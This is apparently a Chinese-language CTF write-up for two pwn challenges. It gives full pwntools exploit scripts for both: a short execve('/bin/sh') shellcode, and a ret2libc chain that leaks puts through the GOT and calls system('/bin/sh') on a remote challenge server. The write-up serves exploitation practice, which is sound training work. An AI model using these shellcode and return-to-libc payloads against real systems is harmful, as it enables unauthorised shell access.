

# shellcode

先检查，除了canary其它全开；read允许读入18字节，读入区域可执行

跟进`sub_11C9`,将除了rdi之外的值全部清空了

gdb调试一下



发现我们输入的内容写入了rdi，所以就很好构造了

| 指令         | 大小 |
| ------------ | ---- |
| add rdi,10   | 0x4  |
| add rax,0x3b | 0x4  |
| syscall      | 0x2  |
| /bin/sh\x00  | 0x8  |

这里让rdi指向`/bin/sh\x00`，所以执行了rdi+10的指令

exp:

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = ''
post = 1
p = process('./pwn')
#p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

payload = asm('''
add rdi,10
add rax,0x3b
syscall
''')
payload+=b'/bin/sh\x00'
p.sendline(payload)
print(hex(len(payload)))
p.interactive()
```

# 签到

简单的ret2libc，板子题

exp:

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node2.tgctf.woooo.tech'
post = 31552
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')
#gdb.attach(p)

puts_got =  elf.got['puts']
puts_plt = elf.plt['puts']
pop_rdi = 0x0000000000401176
ret = 0x000000000040101a
main = elf.sym['main']
payload = b'a'*0x70+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.recvuntil(b'name.\n')
p.sendline(payload)
pause()
puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
pause()
log.info(puts_addr)
libc_base = puts_addr-libc.sym['puts']
sys = libc_base+libc.sym['system']
binsh = libc_base+next(libc.search('/bin/sh'))
payload2 = b'a'*0x70+b'b'*0x8+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(sys)
p.sendline(payload2)
p.interactive()
```

# 